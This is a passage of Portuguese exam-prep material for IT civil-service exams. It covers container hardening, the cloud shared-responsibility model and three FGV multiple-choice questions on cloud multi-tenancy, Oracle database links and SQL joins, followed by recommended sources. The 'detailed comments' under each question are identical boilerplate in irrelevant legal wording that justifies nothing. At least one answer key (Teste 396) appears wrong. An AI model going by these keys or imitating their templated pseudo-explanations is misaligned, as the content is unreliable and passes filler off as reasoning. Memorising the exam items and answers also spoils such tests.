3. **Sistemas de Arquivos Somente Leitura (*Read-Only Root Filesystem*):** Inicializar o contêiner com a flag `--read-only`, impedindo que invasores ou scripts maliciosos gravem arquivos executáveis em diretórios do sistema.
4. **Descarte de Capacidades do Linux (*Drop Capabilities*):** Configurar o contêiner para descartar todas as capacidades administrativas padrão do kernel Linux (`--cap-drop=ALL`), adicionando estritamente aquelas indispensáveis para a operação do serviço.

### 3.3 Segurança em Nuvem: Modelo de Responsabilidade Compartilhada e Proteção de Metadados

A computação em nuvem opera sob o **Modelo de Responsabilidade Compartilhada (*Shared Responsibility Model*)**, no qual as responsabilidades são distribuídas de acordo com o modelo de serviço contratado:



> 🚨 **ALERTA DE PROVA / REGRA DE OURO FCC:**  
> Independentemente do modelo adotado (IaaS, PaaS ou SaaS), a **responsabilidade pela classificação, governança e proteção dos DADOS e pelo controle de IDENTIDADES e acessos é SEMPRE e EXCLUSIVAMENTE do cliente**! O provedor nunca assume a responsabilidade pelas autorizações concedidas pelo próprio cliente dentro de suas contas.

---

### Teste 396
**(FGV – TJ-AP – Analista Judiciário - Segurança da Informação – 2023)**
Davi é o coordenador de TI da empresa X e está efetuando uma 
prova de conceito (POC) para a computação em nuvem de alguns 
serviços e informações. Durante esse processo, Davi identificou 
alguns riscos de segurança que são específicos aos ambientes de 
nuvem. Dentre eles, há as questões tecnológicas partilhadas, que 
consistem na entrega dos serviços de forma escalável através da 
partilha de infraestrutura. Muitas vezes, essa infraestrutura não 
foi projetada para oferecer o isolamento necessário para uma 
arquitetura multilocatária.  
Algumas contramedidas que devem ser implementadas por Davi 
para evitar os riscos da partilha são:

* **A)** especificação dos requisitos de recursos humanos como parte 
de contrato legal e determinação dos processos de 
notificação de violação de segurança;
* **B)** análise do modelo de interfaces de segurança do provedor de 
nuvem e compreensão da cadeia de dependência associada à 
API;
* **C)** implantação de técnicas de autenticação fortes de dois 
fatores, sempre que possível, e monitoramento proativo  para 
detectar atividades não autorizadas;
* **D)** monitoramento do ambiente para atividades não autorizadas 
e a promoção de forte autenticação para o controle de acesso 
administrativo e de operações;
* **E)** implementação de uma forte API de controle de acesso e 
encriptação e proteção da integridade dos dados em trânsito.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **B)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **C)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FGV).
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
>
> **Gabarito: C**

---
### Teste 397
**(FGV – TJ-AP – Analista Judiciário - Banco de Dados – 2023)**
No contexto de administração de conexões no Oracle, Database 
Link é um objeto do esquema que permite que usuários acessem 
objetos em bancos de dados diferentes. Observe o seguinte 
script: 

---conexão no banco de dados staging 
CONNECT staging@staging 

CREATE PUBLIC DATABASE LINK "PRD_PROCESSO" 
 CONNECT TO staging 
 IDENTIFIED BY <PWD> 
 USING 'PRD_PROCESSO'; 

SELECT nome 
FROM processo.tbl_usuario@prd_processo 
WHERE cpf = 99988877766; 

Após a execução do script acima, a instrução SELECT:

* **A)** retornará o nome do usuário com o CPF 99988877766 da 
tabela “tbl_usuario” do banco de dados “prd_processo”;
* **B)** retornará o nome do usuário com o CPF 99988877766 da 
tabela “tbl_usuario” do banco de dados “prd_processo”,  se o 
usuário “processo” existir no banco de dados “staging”;
* **C)** retornará o nome do usuário com  o CPF 99988877766 da 
tabela “tbl_usuario” do banco de dados “prd_processo”,  se 
existir sinônimo público para a tabela “tbl_usuario” no banco 
de dados “prd_processo”;
* **D)** não retornará o nome do usuário com o CPF 99988877766 da 
tabela “tbl_usuario” do banco de dados “prd_processo”,  
porque o Database Link  deve ser criado no banco de dados 
remoto especificado em USING 'PRD_PROCESSO';
* **E)** não retornará o nome do usuário com o CPF 99988877766 da 
tabela “tbl_usuario” do banco de dados “prd_processo”, 
porque a instrução deve ser executada com o usuário 
“staging” na cláusula FROM 
staging.tbl_usuario@prd_processo.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **B)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **C)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FGV).
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
>
> **Gabarito: C**

---
### Teste 398
**(FGV – TJ-AP – Analista Judiciário - Banco de Dados – 2023)**
Considerando as tabelas Competidor e Disputa, descritas 
anteriormente, analise o comando SQL a seguir. 

select * 
from competidor c, disputa d 
where (c.nome = d.azul and c.nome = d.verde) 
   or (c.nome = d.verde and c.nome = d.azul) 

O número de linhas produzidas pela execução desse comando, 
sem contar a linha de títulos, é:

* **A)** 0;
* **B)** 1;
* **C)** 6;
* **D)** 18;
* **E)** 36.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **B)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FGV).
> - **C)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
>
> **Gabarito: B**

---
## 6. Fontes Recomendadas na Internet

* [OWASP Top 10:2021 Official](https://owasp.org/Top10/) - Documentação oficial dos 10 riscos mais críticos em aplicações web.
* [OWASP API Security Top 10](https://owasp.org/API-Security/) - Classificação oficial de riscos de segurança voltados a interfaces de programação (APIs).
* [OWASP REST Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html) - Guia oficial de mitigação e análise de vulnerabilidades em serviços RESTful.
* [OWASP Vulnerable Dependency Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Vulnerable_Dependency_Management_Cheat_Sheet.html) - Guia oficial de mitigação e análise de componentes vulneráveis de terceiros (SCA).
* [NIST SP 800-218 - Secure Software Development Framework (SSDF) Version 1.1](https://csrc.nist.gov/pubs/sp/800/218/final) - Framework oficial do NIST para integração de práticas de segurança no ciclo de desenvolvimento de software (DevSecOps).
* MCGRAW, Gary. **Software Security: Building Security In**. Boston: Addison-Wesley Professional, 2006. (Cap. 1 a 5 - Práticas de Engenharia de Segurança de Software).
* KIM, Gene; HUMBLE, Jez; DEBOIS, Patrick; WILLIS, John. **Manual de DevOps: Como Obter Agilidade, Confiabilidade e Segurança em Organizações Tecnológicas**. Rio de Janeiro: Alta Books, 2018. (Parte IV - Integrando Segurança da Informação, Controle de Mudança e Conformidade).
